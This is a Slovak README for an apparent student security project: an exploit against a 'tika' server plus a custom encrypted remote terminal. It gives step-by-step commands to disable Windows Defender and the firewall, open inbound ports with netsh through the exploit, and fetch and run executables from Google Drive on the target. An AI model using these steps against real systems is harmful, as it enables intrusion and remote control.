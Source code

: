 # IC1-projekt

## Obsah repozitara
V repozitary su 3 zlozky :
### Build
Tu sa nachadza iba subor `build.bat` ktory zkompiluje vsetky zdrojaky do 4 exe suborov :
1. **client_side** - cast virtualneho terminalu ktora sa spusta na klientovy (utocnik) ked uz boli otvorene porty pomocou exploitu.
2. **server_side** - cast virtualneho terminalu ktora sa spusta na servery ma 2 argumenty *[ip_addr_ca, ip_addr_client]*. 
3. **exploit** - subor ktory utoci na tika server, spusta sa na klientovy.
4. **CertificateAuthority** - Certifikacna autorita ktora sluzy ako tretia strana pri sifrovanej komunikacii medzi sererom a klientom.
### exploit 
V tejto zlozke sa nachadza subor `commands_list.txt` v ktorom su napisane 2 prikazy na otvorenie portov na serveri pre komunikaciu z CA (4444) a klientom (3333).
V subore `exploit.py` su zdrojove kody pre exploit.exe
### virtual_cmd
V tejto zlozke su zdrojove kody pre sifrovanu komunikaciu v zlozke `communication` a subory su zdrojove kody pre client_side.exe a server_side.exe respektivne.

## Ako spustit exploit 
- pred startom je potrebne vypnut windows defender a windows firewall
- ako prove si musime stiahnut potrebne subory, v subore `commands_list.txt` sa nachadazju linky na 3. potrebne .exe subory 
    -   `curl -L -o exploit.exe "https://drive.google.com/uc?export=download&id=1JLoM4mb9r6DXaW-wq8X2vu4hISk3cOiE"`
    -   `curl -L -o client_side.exe "https://drive.google.com/uc?export=download&id=1YWW_w4_0Yah4jvRlaDiPJfQ6so3_kt4N"`
    -   `curl -L -o CertificateAuthority.exe "https://drive.google.com/uc?export=download&id=1RfyO5BhZNs_CN3Slr-IC_vFiHayp_JUs"`
- exploit.exe je potrebne spustit na utocnikovej strane v cmd z pravami administratora
- po zadani IP adresy je mozne zadavat prikazy zo suboru commands_list a to prve dve : 
    -   `netsh advfirewall firewall add rule name="Allow port 3333" dir=in action=allow protocol=TCP localport=3333`
    -   `netsh advfirewall firewall add rule name="Allow port 4444" dir=in action=allow protocol=TCP localport=4444`
- dalej je potrebne spustit CertificateAuthority.exe v novom terminaly z administrativnimy pravami
- v terminaly kde je spusteny exploit.exe je potrebne stiahnut subor server_side.exe
    -   `curl -L -o server_side.exe "https://drive.google.com/uc?export=download&id=1MWQaEGF5sdziP5qQR7zLXzuNJT_CAgcj"` 
- tento subor nasledovne stiahneme z prikazom server_side.exe *[ip_adresa_klienta]* *[ip_adresa_klienta]*
- potom spustime na klientovy subor client_side.exe a zvolime ip adresu CA *(localhost v tomto pripade)* a serveru
- ak vsetko prebehlo ako malu virtualne cmd je inicializovane a je mozne sa pohybovat v adresarovej strukture servera a zadavat prikazy


